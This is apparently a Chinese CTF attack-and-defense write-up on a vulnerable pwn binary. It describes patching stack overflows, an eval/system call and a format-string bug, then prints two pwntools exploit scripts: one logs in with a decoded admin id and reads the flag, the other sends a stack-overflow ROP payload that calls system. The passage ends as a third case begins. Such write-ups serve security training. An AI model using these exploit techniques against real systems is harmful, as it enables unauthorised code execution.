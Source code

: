 ![图片](https://uploader.shimo.im/f/RKXWBvVl5xMLyr4y.png!thumbnail)


都很简单，有一个甚至算不上漏洞，直接按程序流执行就能getshell

这里主要分享patch的思路

由于存在三个地方有栈溢出，那么首先得把三个地方的read_size改了

![图片](https://uploader.shimo.im/f/QnMozBlBioY0DiFa.png!thumbnail)

现在网上大部分的IDA都是吾爱破解的那个版本，所以一般都会自带keypatch，所以直接选中0x100然后ctrl+alt+k来启用keypatch来改数据，这里的两个直接改成size=0x40

而另外的一个根据它对rbp的偏移改成0x30较稳妥

![图片](https://uploader.shimo.im/f/EjFB2HYdK9YC9ahH.png!thumbnail)

然后就是对eval函数的处理，这里可以改的有两个，挑一个或全改都行

（比赛中不少队改的是这个）

![图片](https://uploader.shimo.im/f/6ni5tnYB0vwM1GKa.png!thumbnail)

然后就是这个全场修补率最低的格式化字符串？

![图片](https://uploader.shimo.im/f/CngW3ePiHOUzTx3f.png!thumbnail)

有一说一，这个主办方的check是很松的，只要call printf改call puts就行了，完全不需要考虑\n的问题

### attack
这里攻击方法其实还挺多(?)的，虽然都是简单用法，这里就不一个个细讲了

先是最快的用来前期在patch前偷分的

```python
from pwn import*
import base64
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn')
elf = ELF('./pwn')
libc = elf.libc
admin_id = base64.b64decode("NzE2NTIyMwo=")
n.recvuntil("id")
n.send(str(admin_id))
n.recvuntil('\xa4\n')
n.sendline("6666")
n.sendline("cat flag")

n.interactive()
```
接着patch先改了了eval里的system函数为其他函数但未改/bin/sh的情况

```python
from pwn import*
import base64
context(os='linux',arch='amd64',log_level='debug')
n = process('./pwn')
elf = ELF('./pwn')
libc = elf.libc
pop_ret = 0x400db3
user_id = base64.b64decode("bmVwaXJl")
n.recvuntil("id")
n.sendline(str(user_id))
n.recvuntil('\x8d\n')
n.sendline("a"*0x38+p64(pop_ret)+p64(0x400E1A)+p64(elf.plt['system']))
n.sendline("cat flag")
n.interactive()
```
接着就是把system和/bin/sh全nop掉的情况